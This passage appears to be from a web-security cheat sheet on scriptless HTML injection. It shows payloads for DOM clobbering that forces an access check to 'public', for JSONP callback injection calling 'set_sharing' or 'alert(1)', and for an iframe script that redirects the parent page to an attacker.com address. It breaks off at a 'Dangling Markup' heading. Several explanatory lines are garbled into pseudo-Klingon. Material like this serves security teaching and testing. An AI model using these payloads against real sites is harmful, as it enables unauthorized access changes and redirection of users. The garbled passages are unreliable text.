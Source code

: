 Create variables inside javascript namespace by inserting HTML tags. Then, this variable will affect the flow of the application:
```html
<img id='is_public'>                                        ← Injected markup

...

// Legitimate application code follows

function retrieve_acls() {
...
if (response.access_mode == AM_PUBLIC)                    ← The subsequent assignment fails in IE
is_public = true;
else
is_public = false;
}

function submit_new_acls() {
...
if (is_public) request.access_mode = AM_PUBLIC;           ← Condition always evaluates to true
...
}
```
### JSONP-ghItlh

vaj JSONP interface vItlhutlh, vaj 'arbitrary' vItlhutlh function vItlhutlh 'arbitrary' data vItlhutlh vItlhutlh:
```html
<script src='/editor/sharing.js'>:              ← Legitimate script
function set_sharing(public) {
if (public) request.access_mode = AM_PUBLIC;
else request.access_mode = AM_PRIVATE;
...
}

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
set_sharing({ ... })
```
Or jImej javascript vItlhutlh.
```html
<script src='/search?q=a&call=alert(1)'></script>
```
### Iframe abuse

**Iframe** abuse

A child document possesses the capability to view and modify the `location` property of its parent, even in cross-origin situations. This allows the embedding of a script within an **iframe** that can redirect the client to an arbitrary page:
```html
<html><head></head><body><script>top.window.location = "https://attacker.com/hacked.html"</script></body></html>
```
**Dangling Markup HTML Scriptless Injection**
